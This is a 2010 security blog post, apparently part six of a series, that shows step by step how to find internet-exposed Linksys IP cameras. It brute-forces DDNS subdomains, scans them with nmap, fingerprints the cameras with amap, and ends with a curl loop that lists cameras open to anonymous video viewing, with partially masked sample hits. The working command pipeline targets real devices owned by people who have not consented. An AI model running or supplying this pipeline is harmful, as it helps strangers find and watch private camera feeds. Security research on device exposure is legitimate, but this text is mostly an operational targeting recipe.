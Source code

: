 ```yaml
---
title: Hacking Linksys IP Cameras (pt 6)
author: pagvac
date: Wed, 24 Feb 2010 07:18:29 GMT
template: post.pug
category: fucked
---
```


> This article is a continuation of the following GNUCITIZEN articles: [here](/blog/hacking-linksys-ip-cameras-pt-1/), [here](/blog/hacking-linksys-ip-cameras-pt-2/), [here](/blog/hacking-linksys-ip-cameras-pt-3/), [here](/blog/hacking-linksys-ip-cameras-pt-4/) and [here](/blog/hacking-linksys-ip-cameras-pt-5/).

As we know, there are several ways one could go about hunting for IP cameras on the net. The slowest way would be to portscan random IP addresses for certain ports and programmatically detect if the web interface of a given camera was available on the open ports found. This method definitely works, but it can be very time consuming as it consists of scanning random IP addresses hoping that we'll eventually come across the type of device we're interested in.

The second method, which would be much faster in finding our target devices, would be to use a [search engine](http://www.google.co.uk/search?ie=UTF-8&q=inurl:/img/vr.htm) and query content that is unique to our target devices (e.g.: URLs, HTML title). This method, popularized by [GHDB](http://www.hackersforcharity.org/ghdb/?function=summary&cat=18) is simple and effective. The only issue I find with this strategy is that many of these IP cameras found happen to respond very slowly. This is probably due to other curious individuals running the same searches and accessing the same cameras.

The third method which would allow you to find more hidden Linksys IP cameras (i.e.: not cached by search engines a.k.a. the [hidden web](http://www.ericdigests.org/2002-2/hidden.htm)), would consist of bruteforcing subdomains within dynamic domain names (DDNS) used by our target devices (Linksys IP cameras in this case). For instance, the following are some of the dynamic domain names supported by the WVC54GCA and WVC80N Linksys IP camera models:

* `linksys-cam.com`
* `mylinksyscamera.com`
* `mylinksyshome.com`
* `mylinksyscam.com`
* `mylinksysview.com`
* `linksysremotecam.com`
* `linksysremoteview.com`
* `linksyshomemonitor.com`

### Camera discovery process through subdomain bruteforcing

We first save the aforementioned domains in a file, `doms` in this case. Then we use [dnsmap](http://code.google.com/p/dnsmap/) to bruteforce subdomains for each of the domains included in `doms`.

Using dnsmap's built-in wordlist:

    $ for i in `cat doms`;do dnsmap $i -r ~/ -i 64.14.13.199,216.39.81.84&done;

Using a user-supplied wordlist, `wordlist_TLAs.txt` in this case, which is a three-letter acronym wordlist included with dnsmap v0.30:

    $ for i in `cat doms`;do dnsmap $i -w wordlist_TLAs.txt -r ~/ -i 64.14.13.199,216.39.81.84&done;

NOTE: dnsmap's `-i` option allows ignoring user-supplied IP addresses from the results. In this case, 64.14.13.199 and 216.39.81.84 belong to the [DDNS service provider](http://www.tzo.com/), and would therefore be regarded as false positives in this case (we're only interested in IP cameras setup by their respective owners after all). For more info on how to use dnsmap, checkout the [README](http://code.google.com/p/dnsmap/source/browse/trunk/README.txt) file.

We then parse the IP addresses of the subdomains discovered by dnsmap:

    $ grep \# dnsmap*.txt | awk '{print $4}' | sort | uniq > ips.txt

Next, we scan for ports that could potentially be used by a Linksys IP camera web server. In this case, we choose TCP ports 80, 1024 and 1025 as candidates:

    $ sudo nmap -v -T4 -n -P0 -sS -p80,1024,1025 -iL ips.txt -oA nmap_http_ports.`date +%Y-%m-%d-%H%M%S`

This leaves us with a lot of discovered services, but we don't quite yet know which of them correspond to actual Linksys IP cameras web interfaces. There are many ways to fingreprint the web server of a Linksys IP camera. In this case we chose to create our own [amap](http://freeworld.thc.org/thc-amap/) response signature, and then scan the open ports with amap.

Before amap is capable of identifying our target Linksys IP cams, the following response signature needs to be added to `appdefs.resp`, and amap then needs to be recompiled. Otherwise amap won't take the new signature into account:

    http-linksys-cam::tcp::^HTTP/.*\nServer: thttpd/.*Accept-Ranges: bytes.*WVC

Please note that the previous amap response signature was only tested against the WVC54GCA and WVC80N Linksys IP camera models. So I'm not sure if it will work against other models. You've been warned!

Once recompiled, amap can be used to identify Linksys IP cameras from nmap's open ports results. 

    $ amap -i nmap_http_ports.2010-02-22-102001.gnmap -R -S -o amap_results.`date +%Y-%m-%d-%H%M%S`

We finally parse the IP addresses and open ports for all discovered Linksys IP cameras:

    $ grep http-linksys-cam amap_results.2010-02-22-102253 | awk '{print $3}' | cut -d \/ -f1
    x.x.167.245:1024
    x.x.228.231:1025
    x.x.228.231:80
    x.x.64.22:80
    x.x.206.70:1024
    x.x.31.4:1024
    x.x.164.28:1024
    _[snip]_

At this point we have accomplished the task of creating a list of Linksys IP cameras without resorting to search engines or scanning random IP addresses. In order to discover more Linksys cameras, a more comprehensive wordlist would need to be used with dnsmap.

Of course, even further automation would be possible. For instance, an attacker may wish to programmatically identify which Linksys cameras from the previous list allowing video viewing to unauthenticated users:

```bash
$ amapfile=amap_results.2010-02-22-102253; for i in `grep http-linksys-cam $amapfile | awk '{print $3}' | cut -d \/ -f1`;do url="http://$i/img/main.cgi?next_file=main.htm"; if curl --connect-timeout 2 -s -I --url $url | grep ^"HTTP/1.1 501">/dev/null;then echo $url;fi;done;
x.x.206.70:1024/img/main.cgi?next_file=main.htm
x.x.105.221:1024/img/main.cgi?next_file=main.htm
x.x.105.221:80/img/main.cgi?next_file=main.htm
x.x.181.195:1024/img/main.cgi?next_file=main.htm
x.x.243.154:1024/img/main.cgi?next_file=main.htm
x.x.243.154:1025/img/main.cgi?next_file=main.htm
x.x.30.196:1025/img/main.cgi?next_file=main.htm
_[snip]_
```

_In addition to automatically checking for anonymous video viewing on all cameras found, other tasks such as checking for default credentials (`admin`/`admin`) could also be scripted, although this will NOT be included in this post (or any other at GNUCITIZEN)._
